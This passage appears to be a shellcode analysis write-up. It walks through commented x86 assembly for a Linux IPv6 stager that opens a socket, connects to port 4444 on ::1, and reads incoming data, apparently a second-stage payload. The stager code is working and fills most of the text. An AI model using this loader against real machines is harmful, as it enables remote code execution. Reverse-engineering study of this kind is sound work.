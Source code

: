 ~~~ nasm
xor ebx,ebx     ;clear out ebx
push ebx        ;socket protocol 0x0 is moved on to the stack
inc ebx         ;socketcall type, socket
push ebx        ;socket type 1, SOCK_STREAM, is moved on to the stack
push byte +0xa  ;push socket type 10 (INET6) on to the stack
mov ecx,esp     ;all arguments for socket, as required by socketcall are pointed to by ECX
push byte +0x66 ;push 102 onto the stack (socketcall)
pop eax         ;socketcall syscall
int 0x80        ;execute socketcall
~~~


#### Interrupt 2 - Connect
The second chunk of instructions are responsible for creating an IPv6 connect structure.

~~~ nasm
xchg eax,esi          ;place socket file descriptor into ESI. Also clear out EAX.
cdq

;populate the stack with the arguments for the sockaddr_in structure
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x1000000  ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push dword 0x0        ;ipv6 localhost pushed on to the stack
push edx
push word 0x5c11      ;sin_port 4444 pushed on to the stack
push word 0xa         ;sin_family, INET6, which is 10 pushed on to the stack

mov ecx,esp           ;the stack pointer to the sockaddr_in structure is moved into ecx
push byte +0x1c       ;push connect addrlen to the stack, the length of the struct
push ecx              ;the stack pointer to the sockaddr_in structure pushed on to the stack
push esi              push connect sockfd to the stack, this is the value of the file descriptor returned to socket
mov ecx,esp           ;update ecx to the stack pointer which currently contains a pointer to "sockfd, sockaddr_in, addrlen". All arguments for connect, as required by socketcall are pointed to by ECX
inc ebx               ;ebx now contains 2
inc ebx               ;ebx now contains 3, for the type of socketcall, which is connect
push byte +0x66       ;push 102 onto the stack (socketcall)
pop eax               ;socketcall syscall
int 0x80              ;execute connect
~~~


#### Interrupt 3 - Read
The last chunk of instructions are responsible for creating the read system call.

~~~ nasm
mov ebx,esi         ;move the socket file descriptor into EBX
mov dh,0xc          
mov al,0x3          ;read syscall
int 0x80            ;execute read
~~~
